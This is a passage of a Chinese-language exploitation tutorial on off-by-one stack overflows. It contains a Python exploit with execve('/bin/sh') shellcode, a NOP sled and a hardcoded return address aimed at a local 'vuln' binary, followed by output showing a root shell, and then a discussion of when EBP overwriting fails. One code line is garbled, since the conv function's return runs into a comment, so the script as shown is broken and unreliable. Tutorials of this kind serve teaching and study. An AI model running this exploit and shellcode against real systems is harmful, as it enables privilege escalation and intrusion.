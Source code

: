 漏洞利用代码：  


``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
#Spawn a shell. 
#execve(/bin/sh) Size- 28 bytes.
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90"
ret_addr = 0xbffff218
#endianess conversion
def conv(num):
 return struct.pack("<I",numturn Address + NOP's + Shellcode + Junk
buf = "A" * 172
buf += conv(ret_addr)
buf += "\x90" * 30
buf += scode
buf += "A" * 22
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上述漏洞利用程序将会获取root shell，如下所示：  
``` bash
$ python exp.py 
Calling vulnerable program
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
Off-by-one看上去是一个特别蠢的漏洞，而且程序开发者一个这么小的错误也能导致任意代码执行，这也太诡异了。那么，off-by-one漏洞是不是一定会导致任意代码执行呢？  

## 0X03 如果调用者的EBP不在目标缓冲区上方，该怎么办  

答案非常简单。如果那样的话，我们不能用“EBP覆盖”方法来利用这个漏洞了呗！（不过呢，毕竟这个漏洞在代码中是确实存在的，所以肯定有其他的漏洞利用方法啦。😛）  

## 0X04 什么情况下调用者的EBP不在目标缓冲区上方

情况1： 一些其他的本地变量出现在目标缓冲区上方  

``` c
...
void bar(char* arg) {
 int x = 10; /* [1] */
 char buf[256]; /* [2] */ 
 strcpy(buf, arg); /* [3] */ 
}
...
```
因此在这种情况下，夹在缓冲区‘buf’末端和EBP之间的会是一个本地变量，这就不允许我们去覆盖EBP的LSB了。  
